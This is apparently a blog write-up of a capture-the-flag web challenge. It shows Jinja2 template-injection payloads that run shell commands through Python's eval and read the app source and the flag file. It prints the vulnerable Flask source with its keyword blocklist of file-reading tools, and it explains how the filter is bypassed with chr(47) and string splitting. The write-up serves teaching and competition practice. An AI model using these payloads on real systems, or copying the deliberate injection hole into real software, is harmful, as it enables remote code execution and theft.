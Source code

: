 ```yaml
---
title: "The 8th GCSIS"
date: 2025-01-18
draft: false
description: "The 8th GCSIS"
summary: "The 8th GCSIS Personal WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


{{< alert >}}
**WARNING！** This is a machine translated version of the [Chinese page](/posts/gcsis_8/)
{{< /alert >}}

## WEB

### Rank-I

Try rce

```
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls ..").read()')}}
```

```
app
bin
boot
dev
etc
flagf149
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

It is known that there is a flagf419 file in the root directory, which should be flag. It cannot be read directly.

```
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']('open("app.py").read()')}}
```

Get the source code:

```python
from flask import Flask, request, render_template, render_template_string, redirect, url_for, abort
from urllib.parse import unquote

app = Flask(__name__)

phone = ''

def is_safe_input(user_input):
    # unsafe_keywords = ['eval', 'exec', 'os', 'system', 'import', '__import__']
    unsafe_keywords = ['flag','?','*','-','less','nl','tac','more','tail','od','grep','awd','sed','64','/','%2f','%2F']
    if any(keyword in user_input for keyword in unsafe_keywords):
    # if user_input in unsafe_keywords:
        return True
    return False

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/login", methods=["POST"])
def login():
    global phone
    phone = request.form.get("phone_number")
    return render_template("login.html")

@app.route("/cpass", methods=["POST"])
def check():
    global phone
    password = request.form.get("password")

    if is_safe_input(phone):
        return redirect(url_for('index'))

    if phone != "1686682318" and password != "Happy_news_admin":
        return render_template_string('<!DOCTYPE html>\
        <html lang="en">\
        <head>\
            <meta charset="UTF-8">\
            <title>login failed</title>\
        </head>\
        <body>\
            <script>alert("{}The number does not exist or the password is incorrect!") </script>\
            <script>window.location.href = "/";</script>\
        </body>\
        </html>'.format(phone))
    else:
        return redirect(url_for('index'))

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=int("5005"), debug=True)
```

Check the source code and find that it is filtered```['flag','?','*','-','less','nl','tac','more','tail','od','grep','awd','sed','64','/','%2f','%2F']```

```
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']('open(chr(47)+"fla"+"gf149").read()')}}
```

Get the flag

> DASCTF{49467766377144059055627981055717}